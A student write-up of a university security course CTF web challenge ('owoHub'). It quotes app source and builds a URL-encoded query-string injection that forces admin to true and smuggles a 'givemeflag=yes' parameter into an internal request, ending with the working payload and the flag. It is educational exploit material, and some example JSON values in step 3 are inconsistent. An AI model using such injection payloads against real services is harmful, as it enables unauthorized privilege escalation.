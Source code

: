 # Computer Security Fall 2020 HW0 writeup

## Web - owoHub
> FLAG{owo_ch1wawa_15_th3_b35t_uwu!!!}

1. Check *source code*
   - how to get flag?
   ```js
   // but the function can't be directly access by external users
   if (givemeflag === "yes" && userInfo.admin) response.send(FLAG);
   ```
   - where can be used?
      > `app.get('/auth', (request, response) => { const { username, cute } = request.query;`
      1. only check that `cute` end with `true` or `false`
      ```js
      if (typeof username !== "string" || typeof cute !== "string" || username === "" || !cute.match("(true|false)$"))
      ```
      1. `userInfo` take `cute` from the request query directly
      ```js
      const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;
      ```
      1. use `userInfo` define in the previous step in the url and be used to `GET` **internally**
      ```js
      const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
      ```
2. give a random `username` and `cute`
   `https://owohub.zoolab.org/auth?username=a&cute=true`
3. make `admin` to be true
   `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true`
   - since `userInfo` is `{"username":"${username}","admin":false,"cute":${cute}}`, by injecting `cute` previous key/value pair `"admin":false`
   - make `cute` to be `true,"admin":true`, `userInfo` will then be `{"username":"a","admin":false,"cute":true}`. That is, `{"username":"a","admin":true,"cute":false}`
4. make `givemeflag` to be `"yes"`
   1. want something like this, `https://owohub.zoolab.org/auth?username=a&cute=true,"admin":true}&givemeflag=yes#true`
   > `}` close the bracket for `useInfo` which make all the things after it not a part of `userInfo`  
   > `#` point a browser to a specific part or page but all characters after `#` will not be sent in request  
     - make `api` to be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes#true&givemeflag=no`
     - then the actual request being send internally should be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes`
   2. try and get `{"error":"Whaaaat owo?"}`
     - currently, `cute` is `false,"admin":true}` so that it doesn't end with `true` or `false`
     - `cute` only take the part before the next `&`
   3. *url encoding*
     > find the correspoding encode for `"}&#`  
     - then, the url should be `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true%7D%26givemeflag=yes%23true`


